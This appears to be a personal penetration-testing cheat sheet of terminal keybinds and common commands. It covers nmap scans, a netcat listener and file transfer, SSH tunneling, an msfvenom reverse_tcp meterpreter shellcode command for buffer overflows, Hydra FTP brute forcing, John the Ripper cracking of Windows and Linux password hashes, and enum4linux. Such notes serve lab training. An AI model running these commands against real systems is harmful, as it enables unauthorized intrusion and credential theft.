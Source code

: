 
# vpn connection

sudo openvpn



# Terminator keybinds 

//move around by word
ctrl + fn + left or right arrow

//delete whole word 
alt + backspace

//split horizontally 
ctrl + super + c

//split vertically
ctrl + super + v

//close terminal
shift + ctrl + w

//restore default zoom
ctrl + 0

//fullscreen a specific pane 
ctrl + shift + Z




# Typical nmap commands 

//update scripts database
nmap --script-updatedb

//ping sweep, we can run this first to discover hosts
nmap -sn 

//also we can try running no ping to see any extra hosts hidden behind firewalls
nmap -n -sn

//we have hosts we can scan targets to check OS and service/version and run default scripts
nmap -T4 -O -sV -sC

//if all ports are filtered on a host be sure to check for openings on udp port 161/ (SNMP)
nmap -sU -p 161,162 




# Netcat commands

//setup listener
nc -lvnp <port>

//file transfer recieving end
nc -l -p 1234 > output.file

//sending end
nc -w 3 [target] 1234 < output.file



# grep for searching through large files

grep -i "string goes here" filename.txt





# SSH tunneling

//-L initiates a tunnel
ssh -L localport:target:remoteport Name@sshserver.com



# smbclient

smbclient \\\\targetmachine\\some-share -U username



# MSF Venom

//create starting payload for BOF -l specifes length/size
msf-pattern_create -l <payloadsize>


//get offset
msf-pattern_offset -l <length> -q <EIP>


//BOF shellcode // -b "\x00" specifies to remove all null bytes, any other bad bytes can be specified also
msfvenom -p windows/meterpreter/reverse_tcp LHOST=eth0 LPORT=4444 -f py -b "\x00"



# add/view routes

route print

ip route add <targetIP> via <gateway>




# Hydra FTP brute forcing

hydra -t 20  -l /home/kali/Desktop/userslist -P /home/kali/Desktop/password.txt -vV <targetIP> ftp


# John The Ripper password cracking 


//this one for windows passwords
john --wordlist=/home/kali/Desktop/rockyou.txt --format=NT /home/kali/Desktop/hashdump.txt

//this one for linux passwords, first unshadow them, then run John

unshadow [passwdfile] [shadowfile] > [output file name]

john --wordlist=/usr/share/john/password.lst [output file name]


# enum4linux 


enum4linux.pl -a <targetIP> | tee enum4linux.log



# PowerShell





